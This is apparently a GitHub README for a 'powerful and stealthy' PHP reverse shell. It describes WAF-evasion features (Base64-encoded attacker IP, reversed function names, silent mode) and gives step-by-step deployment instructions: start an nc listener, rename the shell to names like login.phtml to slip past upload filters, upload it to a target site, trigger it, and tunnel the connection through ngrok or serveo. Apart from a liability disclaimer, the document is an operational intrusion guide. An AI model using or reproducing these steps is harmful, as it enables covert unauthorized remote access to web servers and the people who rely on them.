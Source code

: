 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It establishes a reliable and quiet connection back to your machine.

## ⚠️ Disclaimer
This PHP reverse shell is developed strictly for educational and authorized penetration testing purposes only.   
The developer is not responsible for any misuse, damage, or illegal activity performed using this reverse_shell.     
Use responsibly and only on systems you own or have explicit permission to test. Unauthorized access is illegal and punishable by law.
## Features
- IP and shell command are Base64 encoded for stealth 

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like  Ngrok, Serveo

- Upload with `.phtml` extension to bypass some filters

## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**

Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
Copy the output and replace the $ip_b64 value in the PHP reverse shell script.

**3. Update your PHP reverse shell script:**

Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload**

Rename the file to something less suspicious, for example:

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

Using the `.phtml` extension helps the file run on some servers that block `.php`.

Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.

## Using Tunneling (When Your IP is Not Public)
If you're using mobile data or behind a router (NAT), your IP might not be public.
In that case, the reverse shell can't reach your machine directly.

To fix this, use TCP tunneling tools like Ngrok or Serveo.

#### Ngrok (Recommended)
Install Ngrok   
Run this command:

```bash
ngrok tcp 4444
```
It will show something like:

```nginx
Forwarding tcp://4.tcp.ngrok.io:18900
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of 4.tcp.ngrok.io;
$port = 18900;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
#### Serveo

**Run this command:**

```bash
ssh -R 0:localhost:4444 serveo.net
```
**It will say something like:**

```csharp
Forwarding TCP connections from serveo.net:46603
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of serveo.net;
$port = 46603;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
## License
This project is licensed under the GNU General Public License v3.0

